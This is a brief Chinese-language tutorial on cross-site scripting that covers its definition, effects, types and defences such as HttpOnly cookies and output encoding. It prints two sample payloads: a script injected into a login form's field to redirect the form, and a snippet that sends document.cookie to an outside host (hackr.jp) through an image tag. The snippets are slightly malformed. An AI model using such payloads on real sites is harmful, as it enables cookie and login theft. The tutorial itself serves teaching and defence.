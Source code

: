 #### 基本概念
XSS：跨站脚本攻击，英文名称是Cross Site Script，XSS攻击，通常指黑客在存有安全漏洞的网站注入非法的 html 标签或者 javascript 代码，从而在用户浏览网页时，浏览器运行攻击代码，达到控制用户浏览器目的的一种攻击。举个例子：某个黑客发表了一篇文章其中包含了恶意的JS代码，所有访问这篇文章的人都会执行这段JS代码，这样就完成XSS攻击。
> XSS属于因输出值转义不完全引发的安全漏洞

#### 影响
1. 利用虚假输入表单骗取用户信息
2. 利用脚本窃取cookie，从而帮助攻击者发送恶意请求
3. 显示伪造的文章图片

#### 类型
DOM xss
反射型 xss
存储型 xss


#### 实现
例如：典型的表单圈套
```javascript
<div>
    <img src='...gif' alt='拍卖会'>
</div>
<form action='http://example.jp/login' method='get' id='login'>
<div>
  ID<input type='text' name='ID' value='"><script>var+f=document.getElementById('login');+f.action='目标网址';+f.method='get';<script><span+s="'/>
</div>
```

再如：
```javascript
var content=escape(document.cookie)//编码成字符串，现在用encodeURI 代替
document.write('<img src=http://hackr.jp/?');
document.write('content');
document.write('>');
```

#### 防御
1. HttpOnly：严格地说，HttpOnly并非为了对抗XSS——HttpOnly解决的是XSS后的Cookie劫持攻击。HttpOnly现在已经基本支持各种浏览器，但是HttpOnly只是有助于缓解XSS攻击，但仍然需要其他能够解决XSS漏洞的方案。
```
  // koa
  ctx.cookies.set(name, value, {
      httpOnly: true // 默认为 true
  })
```  
2. 输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。
3. HtmlEncode
> 当用户输入<script>window.location.href=”http://www.baidu.com”;</script>, 最终保存结果为 &lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。
 4. JavaScriptEncode:对下列字符加上反斜杠:",',\,\n,\r
